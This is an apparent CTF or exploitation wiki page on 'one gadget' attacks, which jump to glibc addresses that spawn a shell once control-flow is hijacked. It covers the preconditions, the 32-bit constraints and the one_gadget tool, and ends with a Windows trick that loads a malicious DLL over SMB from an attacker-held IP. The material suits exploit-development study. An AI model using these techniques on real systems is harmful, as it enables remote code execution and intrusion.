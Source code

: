 # One Gadget (also "bespoke gadget")

_First time heard about this in a [video of Murmus](https://www.youtube.com/watch?v=kEqOvWmzu6Y)._

Sometimes you can get control over EIP/RIP but you don't control the argument passed to the function you're calling. This is for example the case when you overwrite a .got.plt entry or you can overwrite some function pointer on the stack but you don't control the arguments passed to that function. DragonSector discovered that there are some addresses in glibc that you can call without explicitely having to prep a "/bin/sh" string that will give you a shell (so exec*() is called).

There might be other conditions required to be able to get a shell (certain value on the stack to be NULL/0x00000000, ...) apart from the basic conditions:
* You need to know the libc base address (otherwise you can't call your function, right?)
* You need to know which version of libc (hopefully they gave you a libc binary with your challenge)
* You get stdout output.

David942j also discusses the problems with one-gadgets for 32-bit systems. Since x86 uses the stack for function parameters and not registers like x64 it is more difficult to find the constraints for a 32-bit rop gadget (one_gadget uses symbolic execution to resolve constraints). Accessing the data segment in x64 is done by rip+offset which is very straightforward. Accessing the data segment in x86 is done by using 'a' register as base address to the rw-p segment of libc in memory. Sadly, some registers are callee safe (their value is saved (pushed) on the stack and popped back by the callee) which makes it impossible (not sure if hard to do or impossible) to use. Luckily, esi is not callee save and you can write the base address of the rw-p segment in it before calling the one-gadget. It of course limits the number of usable one-gadgets because you can only use those that use an non-callee-safe register.

* Source: [dragons_ctf.pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)
* Source: [Project One Gadget in glibc](https://david942j.blogspot.be/2017/02/project-one-gadget-in-glibc.html)
* Source: [One gadget in Ubuntu 16.04](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

## Gadgets

A premade list: [https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

Run [one_gadget](https://github.com/david942j/one_gadget) on you libc.

### Windows One Gadget

system() on Windows is implemented in MSVCRT.dll. However, this DLL is not always loaded. If it is loaded then you can get your one gadget if it's not loaded you can abuse LoadLibrary("\\x.x.x.x\yourSpecialDll.dll") to fetch a DLL over SMB at the x.x.x.x IP adress. You just need to setup an open remote SMB server that serves your mallicious DLL. In the DLL put your code in DllMain that is automatically called when loading a DLL.

* Source: [dragons_ctf.pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)
